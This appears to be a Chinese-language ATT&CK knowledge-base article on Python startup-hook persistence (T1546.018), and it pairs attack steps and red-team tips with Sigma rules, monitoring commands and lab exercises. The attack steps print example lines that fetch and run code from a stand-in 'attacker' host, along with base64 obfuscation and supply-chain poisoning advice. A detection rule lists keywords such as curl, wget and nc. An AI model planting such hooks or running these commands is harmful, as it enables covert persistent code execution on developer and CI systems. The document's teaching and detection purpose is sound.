

# Python 启动钩子 (T1546.018)

## 一句话通俗理解

> **在 Python 解释器的"开机自启名单"里塞一段代码——只要有人敲 `python`，恶意脚本就跟着跑起来**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者利用 Python 解释器启动时自动加载的 `.pth` 文件、`sitecustomize.py`、`usercustomize.py` 模块，在每次 Python 启动时自动执行任意代码 |
| 为什么危险？ | Python 在自动化运维、数据科学、CI/CD 中被广泛使用，开发者每天敲无数次 `python`——攻击者只需污染一次 `site-packages` 目录就能持续触发 |
| 谁需要关心？ | Python 开发者、DevOps 工程师、SOC 分析师、CI/CD 流水线安全负责人 |
| 你的第一步防御 | 监控 `site-packages/` / `dist-packages/` 目录下 `.pth` 文件与 `sitecustomize.py` / `usercustomize.py` 的创建与修改 |
| 如果只做一件事 | 基线化 Python 解释器 `site-packages` 目录，对任何 `.pth` 文件中 `import` 开头的行立即告警 |

## 难度等级

⭐⭐⭐ 高级 - 需要理解 Python 解释器初始化流程、`site` 模块机制与 `.pth` 文件解析规则

## 前置知识检查

**读这个文件需要什么？**

- [ ] Python 解释器启动流程（`site.py` 模块加载）
- [ ] `site-packages` / `dist-packages` 目录作用
- [ ] `.pth` 文件格式与 `import` 行特殊语义

## 技术描述

**Python 启动钩子**（T1546.018）是 **事件触发执行**（T1546）的一个具体变体，属于 **持久化** 阶段的攻击技术，同时可被用于 **权限提升**（TA0004）。

> 🔑 **打个比方**：就像在每本 Python 字典的扉页里夹了张"开机指令"——任何人翻开这本字典（启动 Python 解释器），扉页上的指令就会被自动念出来。攻击者不需要等用户运行特定脚本，只要用户启动 Python，恶意代码就跑起来。

### 具体怎么理解？

攻击者利用 Python 解释器在初始化阶段自动加载的几类文件，实现"每次启动 Python 都执行恶意代码"的持久化效果。Python 解释器启动时会执行 `site.py` 模块（位于标准库中），该模块负责：

1. **处理 `.pth` 文件**：扫描 `site-packages` / `dist-packages` 目录下所有 `.pth` 文件，逐行解析。普通行被加入 `sys.path`；**以 `import` 开头的行会被作为 Python 代码执行**（这是 `.pth` 文件的合法功能，用于执行包的初始化逻辑）。
2. **加载 `sitecustomize.py`**：`site.py` 会尝试导入名为 `sitecustomize` 的模块——任何放在 `site-packages` 目录下的 `sitecustomize.py` 文件都会被自动导入并执行其中的代码。
3. **加载 `usercustomize.py`**：若启用了用户站点目录（默认启用），`site.py` 还会导入 `usercustomize` 模块——位于用户级 `~/.local/lib/pythonX.Y/site-packages/usercustomize.py` 的文件会被执行。

三个机制的共同特征：**触发条件是"Python 解释器启动"这一高频事件**，且执行权限继承自启动 Python 的用户（在 CI/CD 流水线中常为高权限服务账号）。

不同平台的滥用方式：

- **Linux**：`/usr/lib/python3/dist-packages/`、`/usr/local/lib/python3.X/dist-packages/`、`~/.local/lib/python3.X/site-packages/`
- **Windows**：`C:\Python3X\Lib\site-packages\`、`%APPDATA%\Python\Python3X\site-packages\`
- **macOS**：`/Library/Frameworks/Python.framework/Versions/3.X/lib/python3.X/site-packages/`、`~/Library/Python/3.X/lib/python/site-packages/`

与父技术 T1546 相比，T1546.018 的核心特征是：**触发事件是"用户启动 Python 解释器"**——这在开发者机器、自动化服务器、CI/CD 流水线、Jupyter Notebook 服务中都是高频事件。攻击者无需触发系统启动或登录，只需等待开发者下一次敲 `python` 命令即可。

### 为什么有效？

这种技术之所以有效，是因为：

1. **触发高频**：开发者机器每天敲 `python` 数十次，CI/CD 流水线每小时触发多次
2. **权限继承合法**：恶意代码以启动 Python 的用户身份运行——若是 root / 服务账号则权限极高
3. **隐蔽性强**：`.pth` 文件通常几十个，开发者很少逐行审查；`sitecustomize.py` 是合法的"全站自定义"机制
4. **跨平台一致**：三个机制在 Linux / Windows / macOS 上的 Python 实现完全相同
5. **不依赖系统启动**：与 cron / systemd / LaunchDaemon 不同，Python 启动钩子不依赖系统启动，只要 Python 被调用就触发——更适合开发者环境

**过渡段：** 不要以为持久化就是'写个开机自启'那么简单——攻击者有 50 种以上维持访问的方法，Python 启动钩子是开发者环境中最低调的一种。

## 攻击流程

```
获取目标主机写权限 → 定位 site-packages/dist-packages 目录 → 投递 .pth 或 sitecustomize.py → 等待用户启动 Python → 解释器初始化时自动执行恶意代码
```



**步骤详解：**

1. **获取目标主机写权限**
   - 通俗描述：攻击者需要能写入 `site-packages` 目录
   - 技术细节：系统级 `site-packages` 通常需要 root / Administrator 权限；用户级 `~/.local/lib/python3.X/site-packages/` 仅需用户自己权限；CI/CD 流水线中的容器镜像构建权限常被忽视
   - 常用工具：已有后门、SSH 凭据窃取、容器逃逸

2. **定位 site-packages 目录**
   - 通俗描述：找到 Python 会自动扫描的目录
   - 技术细节：`python -c 'import site; print(site.getsitepackages())'` 列出系统级目录；`python -c 'import site; print(site.getusersitepackages())'` 列出用户级目录；Linux 上常见 `/usr/lib/python3/dist-packages/`、`/usr/local/lib/python3.X/site-packages/`；Windows 上常见 `C:\Python3X\Lib\site-packages\`
   - 常用工具：`python`、`pip show`

3. **选择投递方式**
   - 通俗描述：决定用哪种机制触发恶意代码
   - 技术细节：
     - `.pth` 文件方式：写入 `import os; os.system('curl http://attacker/x | sh')`，文件名任意（如 `evil-config.pth`），`site.py` 会扫描所有 `.pth` 文件
     - `sitecustomize.py` 方式：直接创建该文件并写入恶意代码，Python 启动时自动导入
     - `usercustomize.py` 方式：写入用户级目录，仅当该用户启动 Python 时触发（更隐蔽）
   - 常用工具：文本编辑器、`python -c`

4. **写入恶意内容**
   - 通俗描述：把恶意指令写进文件
   - 技术细节：`.pth` 文件中 `import` 开头的行会被 `exec()` 执行，因此可写 `import subprocess; subprocess.Popen(['curl','http://attacker/x','-o','/tmp/x'])`；为绕过检测可用 `import base64; exec(base64.b64decode('...'))`；`sitecustomize.py` 中可直接写完整 Python 代码
   - 常用工具：`echo`、`cat > file`、Python 脚本

5. **等待用户启动 Python**
   - 通俗描述：等开发者下一次敲 `python`
   - 技术细节：在开发机上，开发者每天敲 `python` 数十次；在 CI/CD 流水线中，每次构建都会启动 Python；在 JupyterHub 服务器上，每次新建 Notebook 都会启动内核；攻击者无需主动触发，被动等待即可
   - 常用工具：无（被动等待）

6. **site.py 初始化时自动加载**
   - 通俗描述：解释器启动时自动扫描恶意文件
   - 技术细节：Python 解释器启动时 `site.py` 被自动导入；`site.py` 调用 `addsitedir()` 处理 `site-packages`；对每个 `.pth` 文件逐行解析，`import` 开头的行调用 `exec()`；最后尝试 `import sitecustomize` 与 `import usercustomize`
   - 常用工具：Python 内置机制

7. **以 Python 用户权限执行恶意代码**
   - 通俗描述：恶意代码跟着解释器一起跑起来
   - 技术细节：恶意代码继承启动 Python 的用户权限；在 CI/CD 中常为服务账号（高权限）；可执行任何 Python 操作——回连 C2、读取 SSH 密钥、注入额外后门、窃取 AWS 凭据、横向移动
   - 常用工具：`requests`、`subprocess`、`socket`

## 真实案例

### 案例说明：本子技术的 Procedure Examples

> 📌 **重要说明**：截至 MITRE ATT&CK v19.1，**T1546.018 子技术官方页面未独立列出 Procedure Examples**（即未关联具体 APT 组织或恶意软件使用本子技术的实例）。本子技术于 2025-05-22 首次加入 ATT&CK，仍处于早期收录阶段。

### 案例关联：父技术 T1546 引用的 UPSTYLE（S1164）

- **时间**: 见 UPSTYLE 公开报告
- **目标**: 东南亚政府组织
- **攻击组织/软件**: UPSTYLE（S1164）
- **手法**: 父技术 T1546 官方页面在描述事件触发执行时提到，UPSTYLE 通过创建以 `import` 开头的 `.pth` 文件实现持久化——这正是本子技术 T1546.018 的典型滥用方式。每次受害者主机启动 Python 解释器时，UPSTYLE 的恶意代码自动执行，建立持久化回连 C2。
- **影响**: 受害者主机在每次 Python 启动时自动回连攻击者，长期潜伏
- **参考链接**:
  - [MITRE ATT&CK - UPSTYLE S1164](https://attack.mitre.org/software/S1164/)
  - [MITRE ATT&CK - Event Triggered Execution T1546](https://attack.mitre.org/techniques/T1546/)（父技术页面引用 UPSTYLE）

### 案例关联：开发者环境滥用场景（安全研究）

- **时间**: 2024-2025 年
- **目标**: 安全研究测试环境
- **攻击组织**: 红队 / 安全研究人员（包括贡献者 Pyae Heinn Kyaw CSIRT @ Salesforce、Ruben Groenewoud @RFGroenewoud）
- **手法**: 在 Salesforce CSIRT 与多位安全研究员的公开分析中，演示了 `.pth` 文件持久化在开发者机器与 CI/CD 流水线中的可行性——攻击者只需在共享的 `site-packages` 目录投递一个 `.pth` 文件，即可让所有使用该 Python 环境的开发者触发恶意代码
- **影响**: 推动了 ATT&CK v19 将该技术正式收录为 T1546.018
- **参考链接**: [MITRE ATT&CK - Python Startup Hooks T1546.018](https://attack.mitre.org/techniques/T1546/018/)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **优先选择用户级目录**：写入 `~/.local/lib/python3.X/site-packages/usercustomize.py` 而非系统级目录，避免触发 root 权限告警，且仅在该用户启动 Python 时触发（更隐蔽）
2. **`.pth` 文件混淆**：把恶意代码 base64 编码后通过 `import base64; exec(base64.b64decode('...'))` 执行，绕过静态扫描对 `os.system` / `subprocess` 的检测
3. **针对 CI/CD 流水线**：在共享的 Docker 基础镜像中投递 `.pth`，让所有基于该镜像的构建任务都触发恶意代码——这是供应链攻击的极佳入口
4. **JupyterHub / JupyterLab 滥用**：在多用户 Jupyter 服务器上，`sitecustomize.py` 会在每个用户启动内核时执行，可窃取所有用户的 token 与代码

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
| -------- | ---- | ---- | ---- |
| Python 解释器 | 内置 `site.py` 机制 | 全平台 | [python.org](https://www.python.org/) |
| pip | 包管理（可写入 site-packages） | 全平台 | [pip](https://pip.pypa.io/) |
| Atomic Red Team | 检测规则测试 | 全平台 | [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) |
| Custom Python Script | 自定义投递脚本 | 全平台 | 无 |

### 注意事项

- 在授权的测试环境中使用这些技术
- 注意操作安全（OPSEC），避免在 `.pth` 文件中留下明显的 `os.system` 调用
- 不要在生产 CI/CD 流水线上实验——污染共享镜像会导致所有构建任务被感染

## 蓝队视角

### 检测要点

1. **`site-packages` 目录完整性监控**：对所有 `site-packages` / `dist-packages` 目录实施 FIM，监控 `.pth`、`sitecustomize.py`、`usercustomize.py` 的创建与修改
2. **`.pth` 文件内容审计**：扫描所有 `.pth` 文件，任何 `import` 开头的行都应被白名单化
3. **Python 进程异常行为关联**：监控 `python` / `python3` 进程启动后短时间内发起的网络外联、文件读取、子进程创建

### 监控建议

- 部署 EDR 监控 Python 解释器进程的网络外联行为（Python 进程通常不应主动发起外联）
- 配置 SIEM 关联规则：`.pth` / `sitecustomize.py` 修改事件 → Python 进程创建 → 异常网络外联
- 对 CI/CD 共享基础镜像实施 SBOM 审计，基线化 `site-packages` 内容

## 避坑指南

清理 Python 启动钩子持久化最容易犯的三个错误：

1. **只删一个文件，漏掉其他机制**：攻击者可能同时投递 `.pth` + `sitecustomize.py` + `usercustomize.py`——必须三个目录全部检查
2. **忽略用户级目录**：`~/.local/lib/python3.X/site-packages/usercustomize.py` 不需要 root，最容易遗漏
3. **忽略虚拟环境**：每个 `venv` / `virtualenv` 都有自己的 `site-packages`，攻击者可能投递到项目级虚拟环境中绕过系统级监控

## 检测建议

### 检测思路

检测 Python 启动钩子滥用的关键是：**盯住 `site-packages` 目录变更 + Python 进程异常行为**。以下是三个层面的检测方法。

### 网络层检测

**方法**：监控 Python 进程发起的异常外联（Python 进程通常不应主动外联）。

```bash
# 检测 python 进程的网络连接
ss -tunap | grep -E "python[0-9]?$"
# 或通过 auditd 监控 socket 操作
auditctl -a always,exit -F arch=b64 -S socket,connect -F auid>=1000 -F uid!=0 -k python_net
ausearch -k python_net | tail -20
```

### 主机层检测

**auditd / 文件完整性监控**：

```bash
# 监控系统级 site-packages 目录
auditctl -w /usr/lib/python3/dist-packages/ -p wa -k python_site_pkgs
auditctl -w /usr/local/lib/python3/ -p wa -k python_site_pkgs

# Windows 上可用 Sysmon EID 11 (FileCreate) 监控
# 配置 Sysmon 配置文件监控 site-packages 目录
```

**Linux 日志**：
- `/var/log/audit/audit.log`：auditd 日志
- `journalctl -t python`：Python 进程日志

```bash
# 检测 site-packages 目录下可疑文件创建
inotifywait -m -r /usr/lib/python3/dist-packages/ -e create,modify -e .pth,.py 2>/dev/null
```

### 应用层检测

**Sigma 规则示例**：

```yaml
title: 检测 .pth 文件创建或修改
id: d4e5f6a7-b8c9-4d0e-1f2a-3b4c5d6e7f80
status: experimental
description: 检测 Python site-packages 目录下 .pth 文件的创建或修改行为，对齐 ATT&CK T1546.018
references:
    - https://attack.mitre.org/techniques/T1546/018/
author: ATT&CK 知识库
date: 2026/07/17
logsource:
    product: linux
    category: file_event
detection:
    selection_path:
        TargetFilename|contains:
            - '/site-packages/'
            - '/dist-packages/'
            - '\\site-packages\\'
            - '\\dist-packages\\'
    selection_ext:
        TargetFilename|endswith: '.pth'
    condition: selection_path and selection_ext
falsepositives:
    - 合法 pip 包安装时创建 .pth 文件
    - 虚拟环境初始化
level: medium
tags:
    - attack.persistence
    - attack.privilege_escalation
    - attack.t1546.018
```

```yaml
title: 检测 sitecustomize.py / usercustomize.py 创建或修改
id: e5f6a7b8-c9d0-4e1f-2a3b-4c5d6e7f8091
status: experimental
description: 检测 Python site-packages 目录下 sitecustomize.py 或 usercustomize.py 的创建/修改，对齐 ATT&CK T1546.018
references:
    - https://attack.mitre.org/techniques/T1546/018/
author: ATT&CK 知识库
date: 2026/07/17
logsource:
    product: linux
    category: file_event
detection:
    selection_path:
        TargetFilename|contains:
            - '/site-packages/'
            - '/dist-packages/'
            - '\\site-packages\\'
            - '\\dist-packages\\'
    selection_name:
        TargetFilename|endswith:
            - 'sitecustomize.py'
            - 'usercustomize.py'
    condition: selection_path and selection_name
falsepositives:
    - 企业 IT 推送全站 Python 自定义配置（少见，应有变更单）
level: high
tags:
    - attack.persistence
    - attack.privilege_escalation
    - attack.t1546.018
```

```yaml
title: 检测 .pth 文件中 import 行执行可疑代码
id: f6a7b8c9-d0e1-4f2a-3b4c-5d6e7f809102
status: experimental
description: 检测 .pth 文件内容包含可疑 import 执行模式，对齐 ATT&CK T1546.018
references:
    - https://attack.mitre.org/techniques/T1546/018/
author: ATT&CK 知识库
date: 2026/07/17
logsource:
    product: linux
    category: file_write
detection:
    selection_rules:
        TargetFilename|endswith: '.pth'
    selection_pattern:
        - 'import os'
        - 'import subprocess'
        - 'import socket'
        - 'import base64'
        - 'exec('
        - 'eval('
        - '__import__'
        - 'curl'
        - 'wget'
        - 'nc '
    condition: selection_rules and selection_pattern
falsepositives:
    - 极少数合法包使用 .pth 的 import 机制执行初始化代码（如 namespace 包）
level: high
tags:
    - attack.persistence
    - attack.privilege_escalation
    - attack.t1546.018
```

```yaml
title: 检测 Python 进程异常网络外联
id: a7b8c9d0-e1f2-4a3b-4c5d-6e7f80910213
status: experimental
description: 检测 python/python3 进程发起异常网络外联行为，对齐 ATT&CK T1546.018
references:
    - https://attack.mitre.org/techniques/T1546/018/
author: ATT&CK 知识库
date: 2026/07/17
logsource:
    product: linux
    category: network_connection
detection:
    selection_process:
        Image|endswith:
            - '/python'
            - '/python2'
            - '/python3'
            - '/python3.8'
            - '/python3.9'
            - '/python3.10'
            - '/python3.11'
            - '/python3.12'
            - '\\python.exe'
            - '\\python3.exe'
    filter_known_good:
        DestinationHostname|endswith:
            - '.pypi.org'
            - '.pythonhosted.org'
            - 'files.pythonhosted.org'
    condition: selection_process and not filter_known_good
falsepositives:
    - 合法 Python 应用发起的 API 调用（需根据业务白名单调优）
level: medium
tags:
    - attack.persistence
    - attack.privilege_escalation
    - attack.t1546.018
```

### ATT&CK 检测映射

| 数据源 / 分析 | 编号 | 说明 |
| -------------- | ---- | ---- |
| 文件系统监控 | DET0258 | 监控 `site-packages` / `dist-packages` 目录下文件的创建与修改 |
| `.pth` / `sitecustomize.py` / `usercustomize.py` 未授权修改/创建关联异常解释器执行 | AN0713 | 关联文件变更与 Python 解释器行为变化、Python 发起的出站连接 |

## 缓解措施

> ⚠️ **MITRE 官方标注**：该子技术"**无法通过预防性控制轻松缓解**"（This technique cannot be easily mitigated with preventive controls），因为 `.pth` 文件与 `sitecustomize.py` 是 Python 解释器的合法扩展机制，禁用会破坏大量 Python 包的正常工作。

### 原因说明

- `.pth` 文件的 `import` 行执行机制是 Python `site` 模块的合法功能，被 namespace packages、`pkg_resources` 等大量合法库使用
- `sitecustomize.py` 是 Python 官方提供的"全站自定义"机制，企业 IT 常用它配置代理、日志等
- 禁用这些机制会导致 `pip` 安装的多个包无法正常工作

### 深度防御建议（替代缓解）

#### 优先级 1：关键措施

**`site-packages` 目录完整性监控**

```bash
# 用 AIDE 基线化所有 site-packages 目录
python -c "import site; print('\n'.join(site.getsitepackages()))" | \
    while read d; do echo "'$d' R" >> /etc/aide/aide.conf; done
echo "'$(python -c 'import site; print(site.getusersitepackages())')' R" >> /etc/aide/aide.conf
aide --init && cp /var/lib/aide/aide.db.new /var/lib/aide/aide.db
# 定期校验
aide --check
```

**最小权限运行 Python**：CI/CD 流水线中的 Python 任务以非特权用户运行，避免使用 root / 服务账号直接敲 `python`。

#### 优先级 2：重要措施

**`.pth` 文件白名单**：定期扫描所有 `.pth` 文件，对 `import` 行建立白名单。

```bash
# 扫描所有 .pth 文件中的 import 行
find / -name '*.pth' 2>/dev/null | xargs grep -l '^import\|^import ' 2>/dev/null | \
    while read f; do echo "=== $f ==="; grep '^import' "$f"; done
```

**虚拟环境隔离**：项目使用独立 `venv` / `virtualenv`，避免共享系统级 `site-packages`；CI/CD 每次构建使用全新虚拟环境。

#### 优先级 3：建议措施

**SBOM 与镜像基线**：对 Docker 基础镜像、CI/CD 构建环境实施 SBOM 审计，基线化 Python 环境内容。

**Python 启动审计**：在关键主机上启用 `python -v`（verbose）模式采样，观察 `site.py` 加载了哪些模块，建立基线。

```bash
# 采样 Python 启动时加载的所有 .pth 与 sitecustomize
python -v -c 'pass' 2>&1 | grep -iE '\.pth|sitecustomize|usercustomize'
```

## 动手实验

> ⚠️ **所有实验必须在隔离的实验室环境中进行**

### 实验 1：理解 `.pth` 文件执行机制（初级）

**目标**：理解 `.pth` 文件中 `import` 行的执行时机

**步骤**：
1. 在隔离 Linux 虚拟机中定位 `site-packages` 目录：`python -c 'import site; print(site.getsitepackages()[0])'`
2. 创建 `/usr/local/lib/python3.X/dist-packages/test.pth`，内容为：`import os; os.system('echo pth_triggered >> /tmp/python_test.log')`
3. 执行 `python -c 'pass'`，观察 `/tmp/python_test.log` 内容

**学习要点**：理解 `.pth` 文件中 `import` 行在 Python 启动时被 `exec()` 的机制

### 实验 2：模拟 `sitecustomize.py` 持久化（中级）

**目标**：掌握 `sitecustomize.py` 持久化方法

**步骤**：
1. 在 `site-packages` 目录创建 `sitecustomize.py`，内容为：
   ```python
   import socket, subprocess
   try:
       subprocess.Popen(['/bin/sh', '-c', 'echo "python started on $(hostname)" >> /tmp/python_log.txt'])
   except: pass
   ```
2. 多次启动 Python，验证每次都触发
3. 在用户级目录创建 `usercustomize.py`，对比触发范围差异

**学习要点**：掌握系统级 vs 用户级启动钩子的差异

### 实验 3：检测规则验证（高级）

**目标**：验证 Sigma / FIM 检测规则是否能捕获本子技术

**步骤**：
1. 部署本文件"检测建议"章节的 Sigma 规则与 FIM 监控
2. 在受控主机执行实验 1 + 实验 2 的攻击模拟
3. 验证 `.pth` 文件创建告警、`sitecustomize.py` 修改告警、Python 网络外联告警是否触发

**学习要点**：理解攻防对抗的实际效果与规则调优方向

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| **ATT&CK** | MITRE 公司维护的攻击技术知识库，像一本"黑客手法百科全书" |
| **Python 启动钩子** | T1546.018，利用 Python 解释器启动时自动加载的 `.pth` / `sitecustomize.py` / `usercustomize.py` 触发恶意代码的子技术 |
| **事件触发执行** | T1546，Python 启动钩子所属的父技术类别 |
| **`.pth` 文件** | Python `site` 模块扫描的配置文件，普通行加入 `sys.path`，`import` 开头的行会被执行 |
| **sitecustomize.py** | Python 解释器启动时自动导入的"全站自定义"模块，常用于企业配置代理/日志 |
| **usercustomize.py** | 用户级启动钩子，仅当该用户启动 Python 时被导入 |
| **site-packages / dist-packages** | Python 第三方包安装目录，`site.py` 启动时扫描其中的 `.pth` 与 `sitecustomize.py` |
| **持久化** | 攻击链中的一个阶段，攻击者在这个阶段维持对系统的长期访问 |
| **C2** | 命令与控制，攻击者用来远程控制被入侵系统的"遥控器" |
| **EDR** | 端点检测与响应，部署在电脑上的安全监控软件 |
| **SBOM** | 软件物料清单，记录软件依赖与组件的清单，用于供应链安全审计 |

## 被引用情况

以下父技术文档引用了本子技术：

- [T1546 - 事件触发执行](../T1546-Event-Triggered-Execution.md)
- [T1546 - 事件触发执行](../../07-Stealth/T1546-Event-Triggered-Execution.md)

## 参考资料

### 📚 官方文档（深入了解）

- [MITRE ATT&CK - Python Startup Hooks (T1546.018)](https://attack.mitre.org/techniques/T1546/018/)
- [MITRE ATT&CK - Event Triggered Execution (T1546)](https://attack.mitre.org/techniques/T1546/)
- [MITRE ATT&CK - UPSTYLE (S1164)](https://attack.mitre.org/software/S1164/)

### 📰 安全报告（真实攻击）

- [Python `site` 模块官方文档](https://docs.python.org/3/library/site.html) - Python 启动钩子机制权威说明
- [PEP 370 -- Per user site-packages directory](https://peps.python.org/pep-0370/) - 用户级 site-packages 设计文档
- [MITRE ATT&CK 官方文档](https://attack.mitre.org/) - ATT&CK 框架官方资源

### 🔧 工具与资源（动手试试）

- [Atomic Red Team](https://github.com/redcanaryco/atomic-red-team) - 检测规则测试框架
- [MITRE ATT&CK Navigator](https://mitre-attack.github.io/attack-navigator/) - ATT&CK 可视化工具
- [Python 官方文档](https://docs.python.org/3/) - Python 语言与标准库文档
- [AIDE](https://aide.github.io/) - 文件完整性监控工具

### 📚 学习资料（深入了解）

- [MITRE ATT&CK 知识库](https://attack.mitre.org/resources/) - ATT&CK 官方资源中心
- [Python `site.py` 源码](https://github.com/python/cpython/blob/main/Lib/site.py) - `site` 模块源码，理解 `.pth` 解析逻辑
- [pip 文档](https://pip.pypa.io/en/stable/) - pip 包管理器工作机制
